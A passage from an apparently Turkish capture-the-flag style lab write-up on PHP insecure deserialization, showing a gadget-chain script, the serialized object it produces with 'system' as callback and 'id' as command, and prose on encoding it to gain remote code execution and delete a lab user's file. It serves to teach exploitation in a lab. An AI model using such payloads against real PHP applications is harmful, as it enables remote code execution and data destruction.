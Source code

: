 ```php
    }
}

class Product {
    public $desc;

    public function __construct($default_desc_type, $desc) {
        $this->desc = $desc->$default_desc_type; // $DefaultMap->id
    }
}

class Description {
    public $HTML_DESC;
    public $TEXT_DESC;

    public function __construct() {
        // @Carlos, what were you thinking with these descriptions? Please refactor!
        $this->HTML_DESC = '<p>This product is <blink>SUPER</blink> cool in html</p>';
        $this->TEXT_DESC = 'This product is cool in text';
    }
}

class DefaultMap {
    private $callback;

    public function __construct($callback) {
        $this->callback = $callback;
    }

    public function __get($name) {
        return call_user_func($this->callback, $name);
    }
}

$test = new CustomTemplate('id');
echo serialize($test);

```

```php
php gadget.php //kodumuzu çalıştırıyoruz.
```

Output:

```php
O:14:"CustomTemplate":2:{s:33:"CustomTemplatedefault_desc_type";s:2:"id";s:20:"CustomTemplatedesc";O:10:"DefaultMap":1:{s:20:"DefaultMapcallback";s:6:"system";}}
```

Artık bu sayede uzaktan kod çalıştırabildiğimizi görebiliyoruz. Bu kısımdan sonra bizden istenen görevi yerine getirerek Carlos kullanıcısının dizininde bulunan `morale.txt` dosyasını silmeliyiz.

Dolayısıyla elde ettiğimiz bu Session objesini url encode ve base64 encode işlemlerinden geçirdikten sonra sisteme vermeliyiz. Bu değeri sisteme verdikten sonra bu şekilde bir hata ile karşılaşıyoruz. Burada id komutu çalışıyor olabilir ancak komutunu görmüyor olabiliriz. 
